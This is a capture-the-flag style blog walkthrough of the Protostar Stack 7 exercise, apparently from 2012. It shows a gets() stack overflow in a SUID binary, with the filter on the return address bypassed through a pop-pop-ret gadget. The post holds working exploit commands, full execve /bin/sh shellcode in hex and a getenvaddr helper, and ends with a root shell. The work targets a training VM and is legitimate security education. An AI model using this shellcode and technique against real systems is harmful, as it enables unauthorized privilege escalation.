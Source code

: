 ```yaml
---
title: "Exploit Exercises - Protostar Stack 7"
date: "2012-01-09T18:36:00-05:00"
comments: true
highlight: "true"
categories:
 - ret2text
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


Welcome everyone to 2012! I took a bit of a break during these holidays, and am just starting to get back going. 

[This challenge](http://exploit-exercises.com/protostar/stack7) was very interesting to me.  I figured it would build off of the previous one.  However, it was its own standalone challenge. 

<!-- more -->

We are given the following code to the stack7 executable: 


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
 char buffer[64];
 unsigned int ret;

 printf("input path please: "); fflush(stdout);

 gets(buffer);

 ret = __builtin_return_address(0);

 if((ret &amp; 0xb0000000) == 0xb0000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
 }

 printf("got path %s\n", buffer);
 return strdup(buffer);
}

int main(int argc, char **argv)
{
 getpath();



}
```
From tinkering with the stack7 executable, I knew I was going to do a stack overflow, and somehow needed to execute code from the stack.  However, similar to the previous challenge, there was a filter on my return address, making it so I couldn't just jump to an address in the stack.  This meant figuring out a way around it. 

Using the note about this being a "return to .text" exploit, I started reading up.  This is a type of exploit that uses part of the executable, albeit even a string to execute as code, because the same characters are also x86 assembler instructions.  So I went about trying to find some code that would let me essentially, "jmp esp", or jump to the stack pointer, where I would put my shellcode.  To do this, I did the following: 

```
mandreko@li225-134:~$ msfelfscan -j esp stack7
[stack7]
```

This was disappointing.  At first, I thought maybe I was not using msfelfscan correctly, and had to tinker a bit.  But it just turns out, that there is no "jmp esp" in stack7.  What a bummer.  However, on a whim, I tried to see if maybe another option to msfelfscan would work: 

```
mandreko@li225-134:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
```

This is great! Some results!  Now let's just pick one, and attempt to use it as the return address in our overflow.  I found that the EIP offset was 80 bytes, so I wired it up as so, and debugged it: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x100' > /home/user/file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

This is a good sign.  It is overwriting the EIP now with "C" values (0x43).  So now we just need to know where in the 100 "C"s the return address is going to.  To do that, I did similar process to finding an EIP offset: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"' > /home/user/file

user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x33614132 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x33614132
8
```

I simply generated a unique string using pattern_create.rb to replace the 100 "C"s, and then used pattern_offset.rb to tell me the offset when gdb got a segmentation fault.  So now I know that the first 8 "C"s are just junk.  Just to verify this, I ran it again, a little differently: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "D"x8 . "E"x100' > file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

This shows the 4 "D"s were properly placed, which proved to me that I was indeed going to need my buffer to look like:

```
| 80 bytes junk | pop-pop-ret | 8 bytes junk | address to execute |
```

Since it was actually going to execute the instructions at the last dword, I opted to put my shellcode in an environmental variable, since it was easy.  I again used the same [shellcode](http://www.exploit-db.com/exploits/13357) for dealing with gets() as I have in the last couple challenges: 

```
user@protostar:/opt/protostar/bin$ export SHELLCODE=`perl -e 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```
The next problem was to find out where the address would reside in memory.  I used getenvaddr.c again to show me the address. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```
Just to be sure, I went to the /opt/protostar/bin directory to do this, since I knew the address could change based on what folder I was in.  I used this to get the address of my SHELLCODE variable by doing the following: 

```
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr SHELLCODE ./stack7
SHELLCODE will be at 0xbffff985
```
Using this address, I exploited the stack7 executable: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "\x85\xf9\xff\xbf"' > /home/user/file
user@protostar:/opt/protostar/bin$ ./stack7 < /home/user/file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCC▒▒▒▒
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
#
```
There you have it, root access, and it was fairly easy.  This is the last challenge in the Protostar VM under the "Stack" category.  Next post you see should be a new category.
